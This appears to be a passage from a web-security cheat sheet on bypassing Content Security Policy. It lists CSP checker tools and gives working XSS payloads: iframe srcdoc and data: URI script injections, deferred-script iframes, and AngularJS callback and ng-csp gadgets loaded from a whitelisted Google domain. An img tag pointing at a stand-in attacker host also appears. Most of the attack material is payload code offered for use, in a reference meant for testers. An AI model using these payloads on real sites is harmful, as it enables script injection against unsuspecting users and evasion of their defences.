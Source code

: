 ```html
<img src="https://attacker-website.com/image.svg">
```

Since the directive is not defined in the CSP `img-src` is set to `self` and follows `default-src` by default.

# Bypassing techniques

You can use the following online tools to check CSP:
- [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/)
- [https://cspvalidator.org/](https://cspvalidator.org/)

## Allowed data: scheme

```http
Content-Security-Policy: default-src 'self' data: *; connect-src 'self'; script-src  'self';
```

Such CSP policy can be bypassed using `<iframe>`. The condition is that application should allow `<iframe>` from the whitelisted domain. Using a special attribute `srcdoc` of `<iframe>` XSS can be easily achieved. Possible payload:

```html
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
```

Sometimes it can be achieved using defer & async attributes of the script within `<iframe>` (it fails most of the time in new browser due to SOP):

```html
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

## Angular JS

```http
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none';
```

If the application is using Angular JS and scripts are loaded from a whitelisted domain it is possible to bypass CSP policy by calling a callback function and vulnerable class. Working payloads:

```html
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
```

References:
- [H5SC Minichallenge 3: "Sh*t, it's CSP!"](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3%3A-%22Sh%2At%2C-it%27s-CSP%21%22). 
